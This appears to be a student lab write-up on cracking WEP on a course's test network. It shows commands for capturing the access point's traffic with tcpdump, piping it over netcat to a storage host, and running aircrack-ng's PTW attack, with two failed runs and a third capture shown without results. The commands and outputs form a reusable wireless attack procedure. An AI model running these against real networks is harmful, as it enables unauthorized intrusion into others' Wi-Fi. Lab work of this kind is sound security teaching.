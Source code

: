 # Question 1: Cracking WEP

## a)

* Installing on nodes: `opkg install aircrack-ng`

## b)

* `iw wlan0 scan` output:

```
	BSS 00:1b:b1:01:dc:b2(on wlan0)
		TSF: 375550100327 usec (4d, 08:19:10)
		freq: 2462
		beacon interval: 100 TUs
		capability: ESS (0x0431)
		signal: -73.00 dBm
		last seen: 200 ms ago
		Information elements from Probe Response frame:
		SSID: WirelessLab_WEP_Crack_Me
	BSS 00:1b:b1:02:01:4e(on wlan0)
		TSF: 137333337598 usec (1d, 14:08:53)
		freq: 2412
		beacon interval: 100 TUs
		capability: ESS (0x0431)
		signal: -41.00 dBm
		last seen: 4190 ms ago
		Information elements from Probe Response frame:
		SSID: WirelessLab_WPA_Crack_Me
```

##### Start nc on steppingStone, with starting time (epoch) in filename:

```
nc -l -p 8080 > "tcpdump_run01-$(date +%s).cap"
```

### PTW attack with `tcpudmp` on node6:

#### First try:

###### Capture packets:

We used tcpdump, because `airodump-ng` makes the files locally and we couldnt find a way to forward them to stepping stone, which was needed because of lack of space on nodes.

```
tcpdump -i wlan1 -G 10800 -W 1 -w- -s 65535 ether src or dst 00:1b:b1:01:dc:b2 | nc 172.17.3.1 8080 &
```

Options:

* `-i wlan1` : Capture on interface wlan1
* `-G 10800` : Capture for 10800s (3 hours)
* `-W 1` : Write only one file (stop after we hit the -G limit
* `-w-` : write to output (piped to nc, which sends it to SteppingStone)
* `-s 65535` : capture whole packets
* `ether src or dst 00:1b:b1:01:dc:b2` : Capture packets only on selected wlan, more specifically, with source or destination of the MAC of AP

##### Results:

* `capinfos -A tcpdump_run01-1483830885-filtered.cap` :

```
File name:           tcpdump_run01-1483830885-filtered.cap
File type:           Wireshark/tcpdump/... - pcap
File encapsulation:  IEEE 802.11 plus radiotap radio header
File timestamp precision:  microseconds (6)
Packet size limit:   file hdr: 65535 bytes
Number of packets:   2896 k
File size:           3373 MB
Data size:           3327 MB
Capture duration:    7875.773085 seconds
First packet time:   2017-01-08 00:14:47.512964
Last packet time:    2017-01-08 02:26:03.286049
Data byte rate:      422 kBps
Data bit rate:       3379 kbps
Average packet size: 1148,64 bytes
Average packet rate: 367 packets/s
SHA1:                e264de9430e678647886d41789b25acb47874038
RIPEMD160:           b9156d622cc7a4bf4e913924df0bd45f36ab8c70
MD5:                 31a428278626e3c398afb431b4333d7c
Strict time order:   True
Number of interfaces in file: 1
Interface #0 info:
                     Name = UNKNOWN
                     Description = NONE
                     Encapsulation = IEEE 802.11 plus radiotap radio header (23/127 - ieee-802-11-radiotap)
                     Speed = 0
                     Capture length = 65535
                     FCS length = -1
                     Time precision = microseconds (6)
                     Time ticks per second = 1000000
                     Time resolution = 0x06
                     Filter string = NONE
                     Operating system = UNKNOWN
                     Comment = NONE
                     BPF filter length = 0
                     Number of stat entries = 0
                     Number of packets = 2896715

```

* `aircrack-ng -z tcpdump_run01-1483830885-filtered.cap` :

```
Opening tcpdump_run01-1483830885-filtered.cap
Read 2896715 packets.

   #  BSSID              ESSID                     Encryption

   1  00:1B:B1:01:DC:B2  WirelessLab_WEP_Crack_Me  WEP (1926031 IVs)

Choosing first network as target.

Opening tcpdump_run01-1483830885-filtered.cap
Attack will be restarted every 5000 captured ivs.
Starting PTW attack with 1926031 ivs.

			Aircrack-ng 1.2 beta3


		[00:00:12] Tested 157873 keys (got 1926031 IVs)

   KB    depth   byte(vote)
    0  131/133   C1(1923328) 04(1922816) 0F(1922560) 8D(1922560) 2F(1922304) 5B(1922304) 7A(1922304) C5(1922304) FB(1922304) B1(1921792) 
    1   84/  1   D2(1935104) 95(1934848) 38(1934592) 4D(1934336) 5E(1934336) D9(1934336) 68(1934080) 04(1933824) F0(1933824) 7D(1933312) 
    2    2/ 13   3F(1984000) 2A(1983232) 4C(1968128) BC(1966848) 5D(1965056) 88(1961984) CE(1960704) 25(1958400) 9F(1958400) EA(1957888) 
    3  255/  3   DD(1868800) 46(1979136) D7(1975040) 45(1974272) 11(1973760) F4(1972992) D5(1970944) 07(1969920) 3E(1967616) AB(1965056) 
    4    0/  4   83(2614272) 0B(1974528) 1A(1973760) C5(1973504) 29(1969152) 5B(1967872) A1(1967360) A7(1967104) 84(1966080) 28(1963520) 

Failed. Next try with 1930000 IVs.
```

#### Second try:

###### Capture packets:

```
tcpdump -i wlan1 -c 300000 -w- -s 65535 ether src or dst 00:1b:b1:01:dc:b2 | nc 172.17.3.1 8080 &
```

Options:

* `-i wlan1` : Capture on interface wlan1
* `-c 300000` : stop after 300.000 captured packets
* `-w-` : write to output (piped to nc, which sends it to SteppingStone)
* `-s 65535` : capture whole packets
* `ether src or dst 00:1b:b1:01:dc:b2` : Capture packets only on selected wlan, more specifically, with source or destination of the MAC of AP

##### Results:

* `capinfos -A tcpdump_run02-1483874801.cap` :

```
File name:           tcpdump_run02-1483874801.cap
File type:           Wireshark/tcpdump/... - pcap
File encapsulation:  IEEE 802.11 plus radiotap radio header
File timestamp precision:  microseconds (6)
Packet size limit:   file hdr: 65535 bytes
Number of packets:   300 k
File size:           350 MB
Data size:           345 MB
Capture duration:    794.134094 seconds
First packet time:   2017-01-08 12:26:42.462937
Last packet time:    2017-01-08 12:39:56.597031
Data byte rate:      434 kBps
Data bit rate:       3478 kbps
Average packet size: 1151,12 bytes
Average packet rate: 377 packets/s
SHA1:                e56ddd53b97500407114efcafa74eace4ea09003
RIPEMD160:           070327dc5ebc1c78b7766c2c60f6727484899a6c
MD5:                 1ab1d14d9d735d7a90a3054d1b0274d6
Strict time order:   True
Number of interfaces in file: 1
Interface #0 info:
                     Name = UNKNOWN
                     Description = NONE
                     Encapsulation = IEEE 802.11 plus radiotap radio header (23/127 - ieee-802-11-radiotap)
                     Speed = 0
                     Capture length = 65535
                     FCS length = -1
                     Time precision = microseconds (6)
                     Time ticks per second = 1000000
                     Time resolution = 0x06
                     Filter string = NONE
                     Operating system = UNKNOWN
                     Comment = NONE
                     BPF filter length = 0
                     Number of stat entries = 0
                     Number of packets = 300000

```

* `aircrack-ng -z tcpdump_run02-1483874801.cap` :

```
Opening tcpdump_run02-1483874801.cap
Read 300000 packets.

   #  BSSID              ESSID                     Encryption

   1  00:1B:B1:01:DC:B2  WirelessLab_WEP_Crack_Me  WEP (197335 IVs)

Choosing first network as target.

Opening tcpdump_run02-1483874801.cap
Attack will be restarted every 5000 captured ivs.
Starting PTW attack with 197335 ivs.


			Aircrack-ng 1.2 beta3


		[00:00:02] Tested 161377 keys (got 197335 IVs)

   KB    depth   byte(vote)
    0   67/ 70   FE(200960) 5D(200704) 81(200704) FB(200704) 42(200448) 7A(200448) 87(200448) E6(200448) EB(200448) 29(200192) 
    1   35/  1   89(205568) 50(205312) E4(205312) 80(205056) CA(205056) 23(204800) 56(204800) 2B(204544) F9(204544) B5(204288) 
    2   12/ 48   A2(209664) 34(209152) 72(209152) 17(208640) 9A(208640) 5B(208384) D8(208384) 4B(208128) 93(208128) 36(207872) 
    3  255/  3   A9(178176) 99(211712) 5A(210688) 14(210432) 33(210432) D3(209664) 05(209408) B6(209408) CE(209152) 3F(208896) 
    4    0/  2   83(269824) 7F(216064) 74(213248) B6(212736) F7(212480) E7(211456) 63(210688) 39(210432) EC(210432) 28(210176) 

Failed. Next try with 200000 IVs.

```

#### Third try:

###### Capture packets:

```
tcpdump -i wlan1 -c 3000000 -w- -s 65535 ether src or dst 00:1b:b1:01:dc:b2 | nc 172.17.3.1 8080 &
```

Options:

* `-i wlan1` : Capture on interface wlan1
* `-c 3000000` : stop after 3.000.000 captured packets
* `-w-` : write to output (piped to nc, which sends it to SteppingStone)
* `-s 65535` : capture whole packets
* `ether src or dst 00:1b:b1:01:dc:b2` : Capture packets only on selected wlan, more specifically, with source or destination of the MAC of AP



